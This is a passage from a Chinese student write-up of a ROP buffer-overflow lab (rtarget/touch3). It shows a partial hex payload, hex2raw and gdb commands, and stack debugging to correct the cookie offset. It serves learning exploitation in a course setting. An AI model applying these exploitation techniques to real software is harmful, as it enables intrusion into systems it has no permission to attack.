37 66 63 64 37 63 37 36  # "7fcd7c76" 乍一看是不是感觉和前面的没啥关系呢？但是它非常有用，Gets函数会帮我们将这些所有内容保存到栈中，至于这里的cookie值，谁知道它会被保存在偏移多少的地址呢？
00                       # '\0'
```

> 也许会有读者问这样的问题：shellcode中我不是为了保证第9个数字是\0，专门进行了一次写入操作嘛？但是上面的汇编中没有体现，这一点很好解释，shellcode中，我将cookie强制按照十六进制变量写入，最开始的0x00会被编译器清理掉，这就是为啥我还要进行一次0赋值操作的原因，但是在rop中，我可没有按照变量赋值的操作，只能说我写入什么样的值，栈上就会保留什么样的值，这也是为啥最前面的40字节0能在gdb中看到并没有被污染变化的原因
>
> Warning!
>
> 必须清理注释后继续后面的动调操作

```bash
./hex2raw < test2.txt > test2.raw
xxd test2.raw
gdb rtarget
```



动调中，我依次用的命令如下：

```bash
break *0x401e2b  #我打的断点是getbuf的
run -qi test2.raw  #静默执行程序，并读取编码好的raw文件
x/32gx $rsp #以16进制向下打印32字节rsp内存中的值
```

先看看栈布局



很显然这里并没有偏移测试成功，看得出来，rax直接跳转到了touch3的地址，回忆下下我们写汇编的时候，cookie值是不是在touch3地址的下面？所以说啊，我们偏移少了，看这个endbr64申明，应该是刚刚好到touch3地址，再往下8字节就能成功到达cookie位置，不过为了严谨，我们向下继续探测32字节的rsp内存



最左边是栈偏移地址，右边是8x2的栈空间值，还记得我cookie的值吧：`37 66 63 64 37 63 37 36`

请看`0x7ffffffbcf08`,这恰好是我需要的内存值,再回忆下lea计算的偏移结果：`0x7ffffffbcf00`，二者之间仅仅相差8字节大小，那么我将偏移量从0x30改到0x38不就成功了嘛？

详细操作我不再占用篇幅，这次的测试是成功了的



实验到这里算是完成进度99%，剩下的1%需要读者注意，在服务器中也一定要动调一次，避免因为环境变化，导致内存地址发生迁移，造成不必要的扣分

## summary

so,本次实验操作算是完成了，体验很不错，对我的pwn掌握能力进一步提升

各位读者能读到这里也超级超级厉害，7月初的考试大家都能拿满分！

本文的最后，献上两只哈基咪！


